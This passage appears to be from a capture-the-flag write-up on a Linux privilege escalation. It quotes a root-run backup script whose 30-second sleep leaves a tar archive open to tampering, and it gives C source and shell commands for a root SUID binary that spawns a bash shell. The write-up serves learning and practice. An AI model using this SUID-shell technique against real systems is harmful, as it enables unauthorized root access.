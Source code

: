 ```bash

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

This script, as the name suggests, backups the `/var/www/html` directory via `tar`, and the weird part is that the `root` user uses tar as `onama` then it has a `sleep` function for whatever reason before the file is deleted. This means that the file is left there for us to alter.

So, what we can do is create a `tar` file that has sn SUID binary for us. This works because `tar` files preserve the permission they have been given, so an SUID binary by `root` on my machine would be the same on the other machine. We just need to slot it within the time frame.

First, create an SUID binary using some C code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main (void){
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```

Afterwards, we can compile this and make it an SUID binary.

```bash
gcc -m32 -o suid suid.c
sudo chown root.root -R /tmp/var
sudo chmod 4755 suid
sudo rm suid.c
```
